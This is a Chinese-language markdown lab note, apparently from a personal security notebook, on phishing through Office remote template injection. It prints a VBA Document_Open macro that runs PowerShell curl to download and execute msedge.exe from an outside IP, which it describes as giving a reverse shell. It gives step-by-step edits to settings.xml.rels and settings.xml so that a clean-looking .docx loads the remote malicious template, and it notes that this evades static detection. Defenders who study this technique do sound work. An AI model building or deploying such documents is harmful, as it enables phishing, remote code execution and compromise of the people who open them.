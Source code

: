 # Office关系模板注入

> [干货 | Office文档钓鱼的实战和免杀技巧-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1917641)
>
> [wps和office宏钓鱼从认识到免杀 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/317116.html)
>
> [已阻止有潜在危险的宏 - Microsoft 支持](https://support.microsoft.com/zh-cn/topic/已阻止有潜在危险的宏-0952faa0-37e7-4316-b61d-5b5ed6024216)
>
> [利用模板注入攻击关键基础设施 (cisco.com)](https://www.cisco.com/c/dam/m/zh_cn/products/security/talos/template-injection.pdf)
>
> 

- 测试环境: Win10+Office365

利用Word文档加载附加模板时的缺陷所发起的恶意请求，而达到的攻击目的，当目标用户点开攻击者发送的恶意Word文档就可以通过向远程服务器发送恶意请求的方式，然后加载模板执行恶意模板的宏。

发送的文档本身不带恶意代码，所以能过很多静态检测。只需要在远程DOTM文档中编写宏病毒或者木马即可。

制作一个宏钓鱼的文档挂载到 HTTP 服务器上, 例如前面的 VBA 宏调 Powershell 下载与执行文件达成反弹shell

```vb
Private Sub Document_Open()

Call Shell(Environ$("COMSPEC") & " /c powershell.exe curl http://100.1.1.131:8000/download/msedge.exe -o msedge.exe && msedge.exe", vbNormalFocus)

End Sub

```

选定目标 word 文档后将其后缀名改成 `.zip` 并解压

![image-20240611053738672](http://cdn.ayusummer233.top/DailyNotes/202406110609857.png)

整体目录结构如下:

![image-20240611053804070](http://cdn.ayusummer233.top/DailyNotes/202406110609303.png)

制作关系模板注入文档主要需要修改两个文件

- `\word\_rels\settings.xml.rels`

  一般 `word/_rels` 文档里可能只有 `document.xml.rels` 没有  `settings.xml.rels`, 此时需要新建一个 `settings.xml.rels` 文档

  ![image-20240611054035175](http://cdn.ayusummer233.top/DailyNotes/202406110609832.png)

  几个关键点

  - `Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"`

    最后一定要是 `attachedTemplate` 定义关系模板

  - `TargetMode` 要是 `External` 外部模板定义

- `\word\settings.xml`

  在 `w:settings` 属性中定义外部模板

  ![image-20240611054105685](http://cdn.ayusummer233.top/DailyNotes/202406110609115.png)

将目录重新打包成 zip 并重命名为 docx 文档

![image-20240611055158981](http://cdn.ayusummer233.top/DailyNotes/202406110609548.png)

到这里模板注入的钓鱼文档就制作好了, 但是由于这里外联模板直接填的ip是不受信任的, 因此这里即便打开了也不会正常加载外部模板, 需要添加受信任站点

> [已阻止有潜在危险的宏 - Microsoft 支持](https://support.microsoft.com/zh-cn/topic/已阻止有潜在危险的宏-0952faa0-37e7-4316-b61d-5b5ed6024216)

打开 `Internet选项->受信任的站点->站点` 添加目标主机即可

![image-20240611103839273](http://cdn.ayusummer233.top/DailyNotes/202406111038830.png)

![image-20240611103954699](http://cdn.ayusummer233.top/DailyNotes/202406111039797.png)

![image-20240611104113796](http://cdn.ayusummer233.top/DailyNotes/202406111041875.png)

---

打开该文档便会下载外部模板文档并执行宏代码达成反弹shell:

![image-20240611060918908](http://cdn.ayusummer233.top/DailyNotes/202406110609052.png)

![image-20240611060910931](http://cdn.ayusummer233.top/DailyNotes/202406110609182.png)



---

火绒与卡巴可检出:

![image-20240611060428157](http://cdn.ayusummer233.top/DailyNotes/202406110604551.png)

![image-20240611060545677](http://cdn.ayusummer233.top/DailyNotes/202406110605684.png)

![image-20240611060658265](http://cdn.ayusummer233.top/DailyNotes/202406110609640.png)
